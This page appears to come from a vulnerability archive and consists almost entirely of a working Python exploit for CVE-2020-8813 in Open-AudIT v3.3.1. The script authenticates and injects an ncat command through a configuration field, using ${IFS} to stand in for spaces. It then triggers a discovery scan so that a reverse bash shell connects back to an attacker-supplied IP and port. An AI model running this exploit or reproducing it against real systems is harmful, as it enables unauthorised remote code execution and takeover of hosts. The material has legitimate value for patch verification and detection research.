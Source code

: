 <languages />

漏洞影响
--------

    Open-AudIT v3.3.1

EXP
---

    #!/usr/bin/python3

    # Exploit Title: Open-AudIT Professional v3.3.1 Remote Code Execution
    # Date: 22/04/2020
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE: CVE-2020-8813
    # Vendor Homepage: https://opmantek.com/
    # Version: v3.3.1
    # Tested on: Ubuntu 18.04 / PHP 7.2.24

    import requests
    import sys
    import warnings
    import random
    import string
    from bs4 import BeautifulSoup
    from urllib.parse import quote

    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')


    if len(sys.argv) != 6:
       print("[~] Usage : ./openaudit-exploit.py url username password ip port")
       exit()

    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ip = sys.argv[4]
    port = sys.argv[5]

    request = requests.session()

    def inject_payload():
       configuration_path = url+"/en/omk/open-audit/configuration/90"
       data = 'data={"data":{"id":"90","type":"configuration","attributes":{"value":";ncat${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s${IFS};"}}}' % (ip, port)
       request.patch(configuration_path, data)
       print("[+] Payload injected in settings")


    def start_discovery():
       discovery_path = url+"/en/omk/open-audit/discoveries/create"
       post_discovery_path = url+"/en/omk/open-audit/discoveries"
       scan_name = "".join([random.choice(string.ascii_uppercase) for i in range(10)])
       req = request.get(discovery_path)

       response = req.text
       soup = BeautifulSoup(response, "html5lib")
       token = soup.findAll('input')[5].get("value")
       buttons = soup.findAll("button")
       headers = {"Referer" : discovery_path}
       request_data = {
       "data[attributes][name]":scan_name,
       "data[attributes][other][subnet]":"10.10.10.1/24",
       "data[attributes][other][ad_server]":"",
       "data[attributes][other][ad_domain]":"",
       "submit":"",
       "data[type]":"discoveries",
       "data[access_token]":token,
       "data[attributes][complete]":"y",
       "data[attributes][org_id]":"1",
       "data[attributes][type]":"subnet",
       "data[attributes][devices_assigned_to_org]":"",
       "data[attributes][devices_assigned_to_location]":"",
       "data[attributes][other][nmap][discovery_scan_option_id]":"1",
       "data[attributes][other][nmap][ping]":"y",
       "data[attributes][other][nmap][service_version]":"n",
       "data[attributes][other][nmap][open|filtered]":"n",
       "data[attributes][other][nmap][filtered]":"n",
       "data[attributes][other][nmap][timing]":"4",
       "data[attributes][other][nmap][nmap_tcp_ports]":"0",
       "data[attributes][other][nmap][nmap_udp_ports]":"0",
       "data[attributes][other][nmap][tcp_ports]":"22,135,62078",
       "data[attributes][other][nmap][udp_ports]":"161",
       "data[attributes][other][nmap][timeout]":"",
       "data[attributes][other][nmap][exclude_tcp_ports]":"",
       "data[attributes][other][nmap][exclude_udp_ports]":"",
       "data[attributes][other][nmap][exclude_ip]":"",
       "data[attributes][other][nmap][ssh_ports]":"22",
       "data[attributes][other][match][match_dbus]":"",
       "data[attributes][other][match][match_fqdn]":"",
       "data[attributes][other][match][match_dns_fqdn]":"",
       "data[attributes][other][match][match_dns_hostname]":"",
       "data[attributes][other][match][match_hostname]":"",
       "data[attributes][other][match][match_hostname_dbus]":"",
       "data[attributes][other][match][match_hostname_serial]":"",
       "data[attributes][other][match][match_hostname_uuid]":"",
       "data[attributes][other][match][match_ip]":"",
       "data[attributes][other][match][match_ip_no_data]":"",
       "data[attributes][other][match][match_mac]":"",
       "data[attributes][other][match][match_mac_vmware]":"",
       "data[attributes][other][match][match_serial]":"",
       "data[attributes][other][match][match_serial_type]":"",
       "data[attributes][other][match][match_sysname]":"",
       "data[attributes][other][match][match_sysname_serial]":"",
       "data[attributes][other][match][match_uuid]":""

       }
       print("[+] Creating discovery ..")
       req = request.post(post_discovery_path, data=request_data, headers=headers, allow_redirects=False)
       disocvery_url = url + req.headers['Location'] + "/execute"
       print("[+] Triggering payload ..")
       print("[+] Check your nc ;)")
       request.get(disocvery_url)


    def login():
       login_info = {
       "redirect_url": "/en/omk/open-audit",
       "username": username,
       "password": password
       }
       login_request = request.post(url+"/en/omk/open-audit/login", login_info)
       login_text = login_request.text
       if "There was an error authenticating" in login_text:
           return False
       else:
           return True

    if login():
       print("[+] LoggedIn Successfully")
       inject_payload()
       start_discovery()
    else:
       print("[-] Cannot login!")